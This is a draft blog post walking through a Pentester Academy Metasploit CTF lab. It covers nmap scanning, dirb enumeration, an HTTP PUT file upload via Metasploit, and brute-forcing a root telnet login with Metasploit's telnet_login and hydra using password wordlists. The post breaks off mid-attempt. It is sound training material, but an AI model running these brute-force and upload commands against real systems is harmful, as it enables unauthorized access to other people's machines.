 +++
author = "Nick"
date = 2020-01-02T14:30:07Z
description = ""
draft = true
slug = "attack-defense-metasploit-ctf-5"
title = "Attack | Defense - Metasploit CTF 5"

+++


Welcome back to the third entry in this series. In the last entry we used three `Metasploit` modules to obtain `mysql` credentials and leverage them on the target machine.

## Overview
In this entry we will tackle the third Metasploit CTF on Pentester Academy. In this entry we will use two `Metasploit` modules. A module to test for valid user credentials and an authenticated RCE.

## Network Topology

{{< figure src="__GHOST_URL__/content/images/2019/12/image-77.png" >}}

## Enumeration
We know that in this set of labs, we are given two targets. `Target-1` and `Target-2`. We will scan these directly. 

Command:
`nmap -sC -sV -T5 target-1`
`nmap -sC -sV -T5 target-2`

We can also combine both targets into a single command.

Command:
`nmap -sC -sV -T5 target-1 target-2`

Here are our results:
```
Nmap scan report for target-1 (192.132.185.3)
Host is up (0.000036s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
MAC Address: 02:42:C0:84:B9:03 (Unknown)
```
```
Nmap scan report for target-2 (192.132.185.4)
Host is up (0.000036s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 34:4a:77:26:eb:63:83:5d:58:1d:fb:6b:4b:97:1e:44 (RSA)
|   256 cc:3b:73:25:12:38:68:1f:16:cd:5f:77:67:33:b4:a5 (ECDSA)
|_  256 a5:5f:c5:34:61:58:51:1f:0b:4f:50:1f:34:37:7a:d7 (ED25519)
MAC Address: 02:42:C0:84:B9:04 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

We see a web service running on `Target-1` and `SSH` running on `Target-2`. We will `curl` the the web service to see what is running. If you've never used `curl` before, it's short for client URL. It is a tool that lets us transfer data within URL and URL formats. We can make web requests with it, download files or even enumerate. If you aren't already, you should get familiar with it since it's an extraordinarily useful and common tool. [Here is free ebook](https://curl.haxx.se/book.html) on the tool by the creators!

Let's curl the target. By default it will use port 80, which is where we have things running.

Command:
`curl target-1`

{{< figure src="__GHOST_URL__/content/images/2020/01/image.png" >}}

We are told to stop the `apache` server to start the telnet server. That's fun. We can create a file called `stop.txt` with the `touch` command.

Command:
`touch stop.txt`

This creates a blank file in our current working directory with the name stop.txt. Now that we have a file, we don't know where we should be putting it. We will want to enumerate the target a bit more. I would normally use `gobuster` for directory enumeration however it was not supplied with this CTF console. We will use `dirb`, it will work just as well.

If you aren't familiar with `dirb`, `dirbuster` or `gobuster`, you should be. They are basic directory enumeration tools for web targets. You supply them a wordlist and target and it will check each location sequentially according to the list.

Command:
`dirb http://target-1 -r -N 403`

The breakdown of the command is as follows:
`dirb` is our tool. 
`-r` tells it to not be recursive. So in case we find a rabbit hole of directories, we can shorten our scan time.
`-N` tells it to ignore the error following it. In this case `403`.

We find two locations `manual` and `access`. The later seems like a good target location, let's use that.

Once we have the file and location we will launch `Metasploit`. We can use the module `auxiliar/scanner/http/http_put` to upload a file. You can find this by `search`ing for `upload` inside `Metasploit`.

Command:
`msf5> use auxiliary/scanner/http/http_put`

We then want to `show` our `options`.

Command:
`msf5> show options` or `msf5> options`

{{< figure src="__GHOST_URL__/content/images/2020/01/image-1.png" >}}

We have to set our `rhost`, `filename` and `path` for this module.

Command:
`msf5> set rhost target-1`
`msf5> set filename stop.txt`
`msf5> set path access`

We can then `run` our module.

Command:
`msf5> run` or `msf5> exploit`

{{< figure src="__GHOST_URL__/content/images/2020/01/CTF_5_http_put.gif" >}}

We see that the file was sucessfully uploaded. Now we can rescan the target for any open `telnet` ports, typically port 23.

Command:
`nmap -T5 -p- target-1`

{{< figure src="__GHOST_URL__/content/images/2020/01/image-2.png" >}}

We now have a `telnet` port available. Now we `telnet` to the target.

Command:
`telnet`
`telnet> open`
`(to) target-1`

We are then greeted with a login prompt.

{{< figure src="__GHOST_URL__/content/images/2020/01/image-3.png" >}}

We try and login with standard default credentials for admin, root and other services but none work. We are then booted out after 5 failed attempts. We enumerate the service with an addition `nmap` scan.

Command:
`scan -sC -sV -T5 -p 23 target-1`

We get back very little info:
```
PORT   STATE SERVICE VERSION
23/tcp open  telnet  Linux telnetd
MAC Address: 02:42:C0:84:B9:03 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

We launch `Metasploit` and use the `auxiliary/scanner/telnet/telnet_version` module to see what it might show.

{{< figure src="__GHOST_URL__/content/images/2020/01/image-4.png" >}}

We see Ubuntu 16.04.5 LTS running and that's about it. Looks like we might need to brute force our way in. We can `use` the module `auxiliary/scanner/telnet/telnet_login`. Inside this module we have a few `options`:

{{< figure src="__GHOST_URL__/content/images/2020/01/image-6.png" >}}

We want to `set` the following: `rhost`, `username` and `pass_file`. You can also set a `user_file` as well. This option looks for a list of users should you not want to target just the root account. In our case though, we are just going to set our `username` to root and the hope it's what we want.

Commands:
`msf5> set rhost target-1`
`msf5> set username root`
`msf5> set pass_file ~/wordlists/100-common-passwords.txt`

Then we `run` it.

Command:
`msf5> run` or `msf5> exploit`

Eventually we get a match!



{{< figure src="__GHOST_URL__/content/images/2020/01/image-5.png" >}}

We can now log in as root to `target-1`. Since `Metasploit` does a decent job with workflow, it has already created this login session for us! We can view our sessions to see which is active.

Command:
`msf5> sessions`

We then interact with the session we want.

Command:
`msf5> session -i 1`

But it seems to fail. We try the password manually, and it also fails. Hmmm. Is it possible that this password changes randomly? So we retry the scan and sure enough it seems to use a new password. S

{{< figure src="__GHOST_URL__/content/images/2020/01/image-7.png" >}}

So now, the question is what's next? It seems that it changes either every minute or every successful attempt. It also seems to go to the next password in the list. We know that we can enumerate the root username password combination but what good is that to us?

They could also be false positives. So in oder to double check our results, we will launch `hydra`. 

`Hydra` is a tool used mostly for dictionary attacks amongst other things. In this case we are going to point it at the telnet login and see if we get similar results back. 

Command:
`hydra -L /usr/share/wordlists/metasploit/unix_usernames -P /usr/share/wordlists/metasploit/unix_passwords.txt` target-1 telnet`

Our command is as follows:
`-L` for a Username list. If we knew a username reliably, we could use `-l` for a specific list.
`-P` for a password list. Alternatly `-p` for a specific password.
We then list our target as `target-1` and our protocol as `telnet`.

{{< figure src="__GHOST_URL__/content/images/2020/01/image-9.png" >}}

We get a match! Time to use the `telnet_login` module again.



{{< figure src="__GHOST_URL__/content/images/2020/01/image-10.png" >}}

